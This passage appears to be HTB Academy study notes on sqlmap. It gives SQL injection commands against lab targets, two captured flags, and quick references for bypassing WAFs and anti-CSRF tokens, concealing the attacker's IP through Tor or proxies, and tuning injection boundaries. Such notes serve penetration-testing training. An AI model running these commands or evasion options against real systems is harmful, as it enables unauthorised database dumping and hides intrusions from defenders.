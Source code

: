 **Case #11 (Advanced Protection):**
```bash
# Combination of techniques
sqlmap -u "http://target/case11.php?id=1" --random-agent --tamper=between,randomcase --tor --batch --dump
```

##### Quick Reference: Protection Bypass
```bash
# Anti-CSRF tokens
sqlmap -u "URL" --data="id=1&csrf=TOKEN" --csrf-token="csrf"

# Parameter randomization  
sqlmap -u "URL" --randomize=rp

# Calculated parameters
sqlmap -u "URL" --eval="import hashlib; h=hashlib.md5(id.encode()).hexdigest()"

# IP concealing
sqlmap -u "URL" --proxy="socks4://proxy:port" --tor --check-tor

# User-agent bypass
sqlmap -u "URL" --random-agent

# WAF bypass
sqlmap -u "URL" --tamper=space2comment,randomcase,between

# Advanced techniques
sqlmap -u "URL" --chunked --random-agent --tamper=modsecurityversioned
```

#### HTB Academy Examples

**Case #5 (High Risk):**
```bash
# Requires OR payloads (risk level 3)
sqlmap -u "http://target/case5.php?id=1" --risk=3 --batch --dump
# Result: HTB{700_much_r15k_bu7_w0r7h_17}
```

**Case #6 (Custom Boundaries):**
```bash
# Non-standard injection boundaries  
sqlmap -u 'http://target/case6.php?col=id' --prefix='`)' --batch -T flag6 --dump
# Result: HTB{v1nc3_mcm4h0n_15_4570n15h3d}
```

**Case #7 (Advanced Tuning):**
```bash
# Complex scenario requiring multiple options
sqlmap -u 'http://target/case7.php?param=value' --level=5 --risk=3 --technique=BEUST --batch --dump
```

#### Quick Reference: Attack Tuning
```bash
# Basic tuning
sqlmap -u "URL" --prefix="PREFIX" --suffix="SUFFIX"         # Custom boundaries
sqlmap -u "URL" --level=5 --risk=3                          # Maximum detection
sqlmap -u "URL" --technique=BEU                             # Specific techniques

# Advanced detection  
sqlmap -u "URL" --string="success" --text-only             # String + text detection
sqlmap -u "URL" --code=200 --titles                        # Status + title detection

# UNION tuning
sqlmap -u "URL" --union-cols=10 --union-char='a'           # UNION optimization
sqlmap -u "URL" --union-from=dual                          # Oracle FROM clause
```